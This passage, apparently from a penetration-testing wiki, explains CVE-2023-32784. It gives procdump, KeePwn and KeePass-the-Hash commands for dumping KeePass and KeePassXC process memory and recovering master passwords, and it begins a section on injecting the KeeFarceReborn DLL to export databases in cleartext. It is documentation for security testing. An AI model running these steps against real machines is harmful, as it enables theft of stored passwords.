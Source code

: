 As described by [@vdohney](https://github.com/vdohney/keepass-password-dumper), it is possible to retrieve the database's master password in memory&#x20;

{% hint style="danger" %}
This KeePass Abuse, identified as [CVE-2023-32784](https://nvd.nist.gov/vuln/detail/CVE-2023-32784) only affects **KeePass versions priot to 2.54.**
{% endhint %}

{% tabs %}
{% tab title="KeePass" %}
Fisrt, perform a process dump of the running KeePass

```powershell
Get-Process keepass
.\procdump.exe -accepteula -ma 988 KeePass.DMP
```

Retrieve the process dump as well as the .KDBX containing the encrypted database (e.g. through SMB).

[KeePwn ](https://github.com/Orange-Cyberdefense/KeePwn)(Python) can then be used to search for potential master password candidates in dumps. Because the resulting strings will (by design) be incomplete, the module can also be used to bruteforce the missing first character against a specified KDBX file.

```bash
python3 KeePwn.py parse_dump -d <dump_file> --bruteforce <database_file>
```
{% endtab %}

{% tab title="KeePassXC" %}
KeePassXC is also subject to such exploits.&#x20;

Fisrt, perform a process dump of the running KeePassXC

```powershell
Get-Process keepassxc
.\procdump.exe -accepteula -ma 988 KeePassXC.DMP
```

Retrieve the process dump as well as the .KDBX containing the encrypted database (e.g. through SMB).

[KeePass-the-Hash](https://github.com/d3lb3/KeePass-the-Hash) can then be used to search for composite key-like strings from a KeePassXC process dump.

```bash
python3 pass_the_key.py <dump_file> <database_file>
```
{% endtab %}
{% endtabs %}

### KeePass DLL Injection

{% tabs %}
{% tab title="ShellCode Injection" %}
[KeeFarceReborn](https://github.com/d3lb3/KeeFarceReborn) is a standalone DLL that exports databases in cleartext once injected in the KeePass process.
